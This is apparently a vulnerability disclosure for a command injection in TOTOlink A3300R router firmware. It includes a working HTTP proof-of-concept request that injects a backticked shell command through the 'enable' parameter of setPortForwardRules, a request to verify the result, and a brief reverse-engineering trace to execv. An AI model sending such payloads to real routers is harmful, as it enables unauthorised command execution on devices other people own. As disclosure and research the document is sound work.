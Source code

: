 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](D:\typora 图片\image-20240109124617070.png)

## Vulnerability Description

When deal with  `setPortForwardRules` request,`enable` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=C6F41C563E86A379 HTTP/1.1
Host: itotolink.net
Content-Length: 83
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/portfwd.html?token=C6F41C563E86A379
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"enable":"1`ls>/web/cmdi10.txt`","addEffect":"0","topicurl":"setPortForwardRules"}
```

injection the command "ls>/web/cmdi10.txt"

![image-20240119135547393](D:\typora 图片\image-20240119135547393.png)

check the result.

```
GET /cmdi10.txt HTTP/1.1
Host: itotolink.net
If-Modified-Since: Mon, 24 Oct 2022 09:43:03 GMT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: text/css,*/*;q=0.1
Referer: http://itotolink.net/advance/portfwd.html?token=C6F41C563E86A379
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

```

![image-20240119135553027](D:\typora 图片\image-20240119135553027.png)

## Analysis

sub_41BFB8 will handle the `setPortForwardRules` request. sub_41BFB8 get `enable` parameter from request body, then pass to `Uci_Set_Str` function.

![image-20240119135952091](D:\typora 图片\image-20240119135952091.png)

`Uci_Set_Str` function Splicing uci command, and pass to `CsteSystem` function.

![image-20240109131204077](D:\typora 图片\image-20240109131204077.png)

`CsteSystem` wraps the command and then passes it to `execv` to execute the command.

![image-20240109131330610](D:\typora 图片\image-20240109131330610.png)

